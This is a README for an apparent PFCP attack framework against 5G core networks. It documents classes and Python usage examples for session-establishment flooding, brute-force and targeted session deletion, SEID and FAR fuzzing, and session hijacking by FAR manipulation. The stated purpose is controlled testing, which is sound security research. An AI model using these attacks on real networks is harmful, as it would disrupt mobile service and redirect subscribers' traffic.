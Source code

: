 # PFCP Toolkit and Attack Framework

This project provides a set of tools and classes to interact with the PFCP (Packet Forwarding Control Protocol) in 5G core networks. It includes utilities for building and sending PFCP messages, as well as performing various attacks such as DoS, fuzzing, and hijacking.

## Table of Contents
- Overview
- Installation
- Classes and Methods
  - PFCPToolkit
  - PFCPDosAttack
  - PFCPFuzzer
  - PFCPHijack
- Examples
  - PFCP Association Setup
  - PFCP Session Establishment Flood
  - PFCP SEID Fuzzing
  - PFCP Hijack by FAR Manipulation

---

## Overview

This framework is designed for testing and simulating PFCP interactions in a 5G core network. It includes:
- **PFCPToolkit**: A utility class for building and sending PFCP messages.
- **PFCPDosAttack**: A class for performing DoS attacks using PFCP messages.
- **PFCPFuzzer**: A class for fuzzing PFCP parameters like SEIDs and FARs.
- **PFCPHijack**: A class for hijacking PFCP sessions by manipulating FARs.

---

## Installation

1. Clone the repository:
   ```bash
   git clone https://github.com/your-repo/pfcp-toolkit.git
   cd pfcp-toolkit
   ```

2. Install dependencies:
   ```bash
   pip install -r requirements.txt
   ```

3. Ensure you have `scapy` installed and configured for PFCP:
   ```bash
   pip install scapy
   ```

---

## Classes and Methods

### PFCPToolkit

The `PFCPToolkit` class provides utilities for building and sending PFCP messages.

#### Methods
- **`Build_PFCP_association_setup_req`**: Builds a PFCP Association Setup Request.
- **`Build_PFCP_session_establishment_req`**: Builds a PFCP Session Establishment Request.
- **`Send_PFCP_association_setup_req`**: Sends a PFCP Association Setup Request.
- **`Send_PFCP_session_establishment_req`**: Sends a PFCP Session Establishment Request.

#### Example
```python
from pfcpToolkit import PFCPToolkit

toolkit = PFCPToolkit(src_addr="10.100.200.66", dest_addr="10.100.200.2", verbose=True)
toolkit.Send_PFCP_association_setup_req()
toolkit.Send_PFCP_session_establishment_req(seid=0xC0FFEE, ue_addr="1.1.1.1")
```

---

### PFCPDosAttack

The `PFCPDosAttack` class is used to perform DoS attacks using PFCP messages.

#### Methods
- **`Start_pfcp_session_establishment_flood`**: Starts a flood of PFCP Session Establishment Requests.
- **`Start_pfcp_session_deletion_bruteforce`**: Performs a brute-force attack by sending PFCP Session Deletion Requests.
- **`Start_pfcp_session_deletion_targeted`**: Targets a specific SEID for deletion.

#### Example
```python
from pfcpDosAttack import PFCPDosAttack

dos = PFCPDosAttack(src_addr="10.100.200.66", dest_addr="10.100.200.2", verbose=True)
dos.Start_pfcp_session_establishment_flood(reqNbr=100, num_threads=5)
```

---

### PFCPFuzzer

The `PFCPFuzzer` class is used to fuzz PFCP parameters like SEIDs and FARs.

#### Methods
- **`Start_PFCP_SEID_fuzzing`**: Fuzzes SEIDs to discover valid ones.
- **`Start_PFCP_FARID_fuzzing`**: Fuzzes FAR IDs to discover valid ones.

#### Example
```python
from pfcpFuzzer import PFCPFuzzer

fuzzer = PFCPFuzzer()
fuzzer.set_verbose(True)
fuzzer.Start_PFCP_SEID_fuzzing(
    upf_addr="10.100.200.2",
    src_addr="10.100.200.66",
    max_seid=1000,
    max_far_discover=10
)
```

---

### PFCPHijack

The `PFCPHijack` class is used to hijack PFCP sessions by manipulating FARs.

#### Methods
- **`Start_PFCP_hijack_far_manipulation`**: Hijacks a session by modifying FARs.

#### Example
```python
from pfcpHijack import PFCPHijack

hijack = PFCPHijack()
hijack.set_verbose(True)
hijack.Start_PFCP_hijack_far_manipulation(
    hijacker_addr="10.100.200.66",
    upf_addr="10.100.200.2",
    seid=0xC0FFEE
)
```

---

## Examples

### PFCP Association Setup
```python
from pfcpToolkit import PFCPToolkit

toolkit = PFCPToolkit(src_addr="10.100.200.66", dest_addr="10.100.200.2", verbose=True)
toolkit.Send_PFCP_association_setup_req()
```

### PFCP Session Establishment Flood
```python
from pfcpDosAttack import PFCPDosAttack

dos = PFCPDosAttack(src_addr="10.100.200.66", dest_addr="10.100.200.2", verbose=True)
dos.Start_pfcp_session_establishment_flood(reqNbr=100, num_threads=5)
```

### PFCP SEID Fuzzing
```python
from pfcpFuzzer import PFCPFuzzer

fuzzer = PFCPFuzzer()
fuzzer.set_verbose(True)
fuzzer.Start_PFCP_SEID_fuzzing(
    upf_addr="10.100.200.2",
    src_addr="10.100.200.66",
    max_seid=1000,
    max_far_discover=10
)
```

### PFCP Hijack by FAR Manipulation
```python
from pfcpHijack import PFCPHijack

hijack = PFCPHijack()
hijack.set_verbose(True)
hijack.Start_PFCP_hijack_far_manipulation(
    hijacker_addr="10.100.200.66",
    upf_addr="10.100.200.2",
    seid=0xC0FFEE
)
```

---

## Notes
- Ensure you are running these scripts in a controlled environment for testing purposes only.
- Modify the IP addresses and ports as per your network setup.
- Use the `verbose=True` flag to enable detailed logging for debugging.

---

## License
This project is licensed under the MIT License. See the `LICENSE` file for details.

